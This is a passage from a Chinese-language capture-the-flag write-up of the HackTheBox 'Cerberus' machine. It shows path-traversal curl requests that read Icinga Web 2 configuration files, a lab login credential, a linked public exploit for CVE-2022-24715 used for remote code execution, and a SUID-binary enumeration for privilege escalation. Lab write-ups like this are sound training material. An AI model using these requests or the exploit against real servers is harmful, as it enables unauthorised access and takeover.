 ```shell
~/Hackthebox-writeups/Hackthebox-Cerberus ------------------------ 13:58:39
> sudo curl 'http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini'
[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"
```

4. authentication.ini

```shell
~/Hackthebox-writeups/Hackthebox-Cerberus ------------------------ 13:59:29
> sudo curl 'http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini'
[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

这几个文件的读取中，就看到了数据库的账号密码，现在测试一下登录界面能不能用这个账号密码进行登录吧

`matthew/IcingaWebPassword2023`

好啊，登录成功

![](https://i.328888.xyz/2023/04/09/icOKDJ.png)

接下来使用的 **CVE-2022-24715** 漏洞来 RCE

使用 github exploit 脚本: [https://raw.githubusercontent.com/JacobEbben/CVE-2022-24715/main/exploit.py](https://raw.githubusercontent.com/JacobEbben/CVE-2022-24715/main/exploit.py)

![](https://i.328888.xyz/2023/04/09/icOQ1d.png)

同时需要本地生成 pem 密钥: `ssh-keygen -t rsa -m PEM`

![](https://i.328888.xyz/2023/04/09/icjSpX.png)

# 提权

    www-data@icinga:/usr/share$ find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -print 2>/dev/null
    /usr/sbin/ccreds_chkpwd
    /usr/bin/mount
    /usr/bin/sudo
    /usr/bin/firejail
    /usr/bin/chfn
    /usr/bin/fusermount3
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/ksu
    /usr/bin/pkexec
    /usr/bin/chsh
    /usr/bin/su
    /usr/bin/umount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/libexec/polkit-agent-helper-1
